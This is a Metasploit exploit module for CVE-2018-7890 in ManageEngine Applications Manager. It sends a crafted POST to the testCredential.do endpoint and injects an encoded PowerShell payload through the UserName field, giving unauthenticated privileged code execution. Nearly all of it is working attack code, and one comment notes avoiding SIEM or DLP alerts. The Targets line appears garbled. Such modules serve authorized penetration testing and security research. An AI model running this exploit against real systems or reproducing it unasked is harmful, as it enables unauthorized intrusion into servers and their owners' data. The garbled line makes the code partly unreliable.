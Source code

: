 MSFEXP
------

    ##
    # This module requires Metasploit: http://metasploit.com/download
    # Current source: https://github.com/rapid7/metasploit-framework
    ##

    class MetasploitModule < Msf::Exploit::Remote
      Rank = ExcellentRanking

      include Msf::Exploit::Remote::HttpClient
      include Msf::Exploit::Powershell

      def initialize(info = {})
        super(update_info(info,
          'Name'           => "ManageEngine Applications Manager Remote Code Execution",
          'Description'    => %q(
            This module exploits command injection vulnerability in the ManageEngine Application Manager product.
            An unauthenticated user can execute a operating system command under the context of privileged user.

            Publicly accessible testCredential.do endpoint takes multiple user inputs and validates supplied credentials
            by accessing given system. This endpoint calls a several internal classes and then executes powershell script
            without validating user supplied parameter when the given system is OfficeSharePointServer.
          ),
          'License'        => MSF_LICENSE,
          'Author'         =>
            [
              'Mehmet Ince <mehmet@mehmetince.net>' # author & msf module
            ],
          'References'     =>
            [
              ['CVE', '2018-7890'],
              ['BID', '103358'],
              ['URL', 'https://pentest.blog/advisory-manageengine-applications-manager-remote-code-execution-sqli-and/'],
              ['URL', 'https://pitstop.manageengine.com/portal/community/topic/security-vulnerability-issues-fixed-upgrade-to-the-latest-version-of-applications-manager']
            ],
          'DefaultOptions' =>
            {
              'WfsDelay' => 10,
              'RPORT' => 9090
            },
          'Payload' =>
            {
              'BadChars' => "\x22"
            },
          'Platform'       => ['win'],
          'Arch'           => [ARCH_X86, ARCH_X64],
          'Targets'        => [['Automatic',_{}|'Automatic', {}]],
          'Privileged'     => true,
          'DisclosureDate' => 'Mar 7 2018',
          'DefaultTarget'  => 0))

        register_options(
          [
            OptString.new('TARGETURI', [true, 'The URI of the application', '/'])
          ]
        )
      end

      def check
        res = trigger_endpoint(Rex::Text.rand_text_alpha(3))
        if res && res.body.include?('Kindly check the credentials and try again')
          Exploit::CheckCode::Vulnerable
        else
          Exploit::CheckCode::Safe
        end
      end

      def exploit
        fail_with(Failure::NotVulnerable, 'Target is not vulnerable.') unless check == Exploit::CheckCode::Vulnerable

        powershell_options = {
          encode_final_payload: true,
          remove_comspec: true
        }
        p = cmd_psh_payload(payload.encoded, payload_instance.arch.first, powershell_options)

        print_status('Triggering the vulnerability')

        trigger_endpoint("$(#{p})")
      end

      def trigger_endpoint(username)
        send_request_cgi(
          'method' => 'POST',
          'uri' => normalize_uri(target_uri.path, 'testCredential.do'),
          'vars_post' => {
            'method' => 'testCredentialForConfMonitors',
            'type' => 'OfficeSharePointServer',
            'montype' => 'OfficeSharePointServer',
            'isAgentEnabled' => 'NO',
            'isAgentAssociated' => 'false',
            'displayname' => Rex::Text.rand_text_alpha(rand(10..15)),
            'HostName' => '127.0.0.1', # Try to access random IP address or domain may trigger SIEMs or DLP systems...
            'Powershell' => 'True', # :-)
            'CredSSP' => 'False',
            'SPType' => 'SPServer',
            'CredentialDetails' => 'nocm',
            'Password' => Rex::Text.rand_text_alpha(3),
            'UserName' => username
          }
        )
      end
    end